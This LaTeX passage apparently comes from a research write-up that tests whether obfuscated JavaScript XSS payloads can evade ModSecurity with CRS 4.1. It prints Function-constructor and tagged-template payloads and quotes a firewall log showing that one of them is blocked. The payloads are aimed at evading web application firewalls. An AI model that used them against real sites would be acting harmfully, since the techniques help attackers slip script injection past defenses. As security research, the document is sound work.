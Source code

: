 \begin{lstlisting}[style=basicStyle, language=Python]
<statements before>

[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')()

[].constructor.constructor('alert("exception")')()

<statements after>
\end{lstlisting}

In this case, the JavaScript parser will throw a \verb|SyntaxError|:

\begin{lstlisting}[style=basicStyle, language=Python]
Uncaught SyntaxError: expected expression, got ']'
\end{lstlisting}

JavaScript is able to automatically insert some semicolons to create valid syntax from statements where the semicolons have been omitted. JavaScript's automatic semicolon insertion rules are stated under \cite{js/autosemi}. Limitations, that arise when accessing the \verb|Function()| constructor with the syntax used in this subsection, are laid out under Section~\ref{sec:functionconstructor} and Section~\ref{sec:payloadlimitations}.


\subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of evaluating the ModSecurity firewall using \acrshort{crs} 4.1 with firewall evasion techniques, the author faced the question if it was possible to create payloads without using parenthesis: \verb|()|. Those payloads still need to be valid and successfully bypass the evaluated firewall configuration.
Considering the bypassing payload shown in Listing~\ref{lst:funconbypasssbn} stated under Section~\ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals, as proposed under Section~\ref{sec:taggedtemplateliterals}, forming the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```
\end{lstlisting}

This payload caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

